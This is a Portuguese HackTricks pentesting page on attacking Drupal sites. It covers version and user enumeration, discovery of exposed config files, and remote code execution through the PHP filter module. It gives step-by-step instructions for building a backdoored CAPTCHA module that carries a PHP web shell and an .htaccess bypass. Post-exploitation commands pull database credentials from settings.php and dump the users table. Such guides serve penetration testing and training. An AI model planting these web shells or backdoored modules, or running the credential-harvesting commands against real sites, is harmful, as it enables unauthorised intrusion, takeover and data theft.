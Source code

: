 # Drupal

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

## Descoberta

* Verifique **meta**
```bash
curl https://www.drupal.org/ | grep 'content="Drupal'
```
* **Nó**: O Drupal **indexa seu conteúdo usando nós**. Um nó pode **conter qualquer coisa** como uma postagem de blog, enquete, artigo, etc. Os URIs das páginas geralmente têm a forma `/node/<nodeid>`.
```bash
curl drupal-site.com/node/1
```
## Enumeração

O Drupal suporta **três tipos de usuários** por padrão:

1. **`Administrador`**: Este usuário tem controle total sobre o site do Drupal.
2. **`Usuário Autenticado`**: Esses usuários podem fazer login no site e realizar operações como adicionar e editar artigos com base em suas permissões.
3. **`Anônimo`**: Todos os visitantes do site são designados como anônimos. Por padrão, esses usuários só podem ler postagens.

### Versão

* Verifique `/CHANGELOG.txt`
```bash
curl -s http://drupal-site.local/CHANGELOG.txt | grep -m2 ""

Drupal 7.57, 2018-02-21
```
{% hint style="info" %}
As novas instalações do Drupal, por padrão, bloqueiam o acesso aos arquivos `CHANGELOG.txt` e `README.txt`.
{% endhint %}

### Enumeração de nomes de usuário

#### Registro

Em _/user/register_ basta tentar criar um nome de usuário e se o nome já estiver em uso, você será notificado:

![](<../../.gitbook/assets/image (328).png>)

#### Solicitar nova senha

Se você solicitar uma nova senha para um nome de usuário existente:

![](<../../.gitbook/assets/image (903).png>)

Se você solicitar uma nova senha para um nome de usuário inexistente:

![](<../../.gitbook/assets/image (307).png>)

### Obter número de usuários

Acessando _/user/\<number>_ você pode ver o número de usuários existentes, neste caso são 2, pois _/users/3_ retorna um erro de não encontrado:

![](<../../.gitbook/assets/image (333).png>)

![](<../../.gitbook/assets/image (227) (1) (1) (1).png>)

### Páginas ocultas

**Fuzz `/node/$` onde `$` é um número** (de 1 a 500, por exemplo).\
Você pode encontrar **páginas ocultas** (teste, desenvolvimento) que não são referenciadas pelos mecanismos de busca.

#### Informações sobre módulos instalados
```bash
#From https://twitter.com/intigriti/status/1439192489093644292/photo/1
#Get info on installed modules
curl https://example.com/config/sync/core.extension.yml
curl https://example.com/core/core.services.yml

# Download content from files exposed in the previous step
curl https://example.com/config/sync/swiftmailer.transport.yml
```
### Automático
```bash
droopescan scan drupal -u http://drupal-site.local
```
## RCE

### Com o Módulo Filtro PHP

{% hint style="warning" %}
Nas versões mais antigas do Drupal **(antes da versão 8)**, era possível fazer login como administrador e **ativar o módulo `PHP filter`**, que "Permite que trechos de código PHP embutidos sejam avaliados."
{% endhint %}

Você precisa que o **plugin php esteja instalado** (verifique acessando _/modules/php_ e se retornar um **403**, então **existe**, se **não encontrado**, então o **plugin php não está instalado**)

Vá para _Módulos_ -> (**Verifique**) _Filtro PHP_ -> _Salvar configuração_

![](<../../.gitbook/assets/image (247) (1).png>)

Em seguida, clique em _Adicionar conteúdo_ -> Selecione _Página Básica_ ou _Artigo_ -> Escreva _código shell php no corpo_ -> Selecione _Código PHP_ em _Formato de texto_ -> Selecione _Visualizar_

![](<../../.gitbook/assets/image (338).png>)

Finalmente, basta acessar o nó recém-criado:
```bash
curl http://drupal-site.local/node/3
```
### Instalar Módulo Filtro PHP

A partir da versão **8 em diante, o** [**módulo Filtro PHP**](https://www.drupal.org/project/php/releases/8.x-1.1) **não é instalado por padrão**. Para aproveitar essa funcionalidade, teríamos que **instalar o módulo por conta própria**.

1. Baixe a versão mais recente do módulo no site do Drupal.
1. wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
2. Após o download, vá para **`Administração`** > **`Relatórios`** > **`Atualizações disponíveis`**.
3. Clique em **`Procurar`**, selecione o arquivo no diretório em que o baixamos e depois clique em **`Instalar`**.
4. Depois que o módulo estiver instalado, podemos clicar em **`Conteúdo`** e **criar uma nova página básica**, semelhante ao que fizemos no exemplo do Drupal 7. Novamente, certifique-se de **selecionar `Código PHP` no menu suspenso `Formato de texto`**.

### Módulo com Backdoor

Um módulo com backdoor pode ser criado **adicionando um shell a um módulo existente**. Módulos podem ser encontrados no site drupal.org. Vamos escolher um módulo como o [CAPTCHA](https://www.drupal.org/project/captcha). Role para baixo e copie o link para o arquivo tar.gz [arquivo compactado](https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz).

* Baixe o arquivo compactado e extraia seu conteúdo.
```
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```
* Criar um **shell web PHP** com o conteúdo:
```php
<?php
system($_GET["cmd"]);
?>
```
* Em seguida, precisamos criar um arquivo **`.htaccess`** para nos dar acesso à pasta. Isso é necessário, pois o Drupal nega acesso direto à pasta **`/modules`**.
```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
* A configuração acima aplicará regras para a pasta / quando solicitarmos um arquivo em /modules. Copie ambos esses arquivos para a pasta captcha e crie um arquivo compactado.
```bash
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```
* Ao assumirmos **acesso administrativo** ao site, clique em **`Gerenciar`** e depois em **`Estender`** na barra lateral. Em seguida, clique no botão **`+ Instalar novo módulo`**, e seremos levados para a página de instalação, como `http://drupal-site.local/admin/modules/install`. Navegue até o arquivo backdoored Captcha e clique em **`Instalar`**.
* Após a instalação bem-sucedida, navegue até **`/modules/captcha/shell.php`** para executar comandos.

## Pós Exploração

### Ler settings.php
```
find / -name settings.php -exec grep "drupal_hash_salt\|'database'\|'username'\|'password'\|'host'\|'port'\|'driver'\|'prefix'" {} \; 2>/dev/null
```
### Extrair usuários do BD
```
mysql -u drupaluser --password='2r9u8hu23t532erew' -e 'use drupal; select * from users'
```
## Referências

* [https://academy.hackthebox.com/module/113/section/1209](https://academy.hackthebox.com/module/113/section/1209)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os repositórios** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
